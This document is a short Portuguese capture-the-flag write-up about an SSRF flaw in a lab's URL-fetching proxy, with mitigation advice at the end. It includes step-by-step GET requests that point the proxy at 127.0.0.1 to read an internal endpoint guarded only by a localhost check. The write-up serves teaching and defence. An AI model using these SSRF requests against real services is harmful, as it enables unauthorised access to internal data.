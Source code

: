 # Write-up — M10 SSRF Explorando Endpoint S3

## Visão Geral do Vetor
O proxy simplesmente usa `requests.get` para a URL fornecida. O endpoint `/s3/internal/...` verifica `remote_addr` para garantir que apenas localhost acesse a flag. Quando o proxy realiza a requisição, ele roda no mesmo host e passa na verificação.

## Passo a Passo
1. `GET /api/proxy?url=http://example.com` para verificar funcionamento.
2. `GET /api/proxy?url=http://127.0.0.1:8080/health` para validar SSRF.
3. `GET /api/proxy?url=http://127.0.0.1:8080/s3/internal/statements/report.txt`.
4. Ler a resposta JSON contendo o campo `body` com o relatório e `flag`.

## Evidências
- Logs do endpoint S3 registrando `remote_addr=127.0.0.1` originado pelo proxy.
- Resposta do proxy com `status: 200` e corpo contendo `flag: VIVO2025{...}`.

## Mitigações Recomendadas
- Implementar allowlist de destinos externos legítimos.
- Bloquear resoluções para IPs privados/loopback.
- Não expor endpoints internos sensíveis ou exigir autenticação forte.
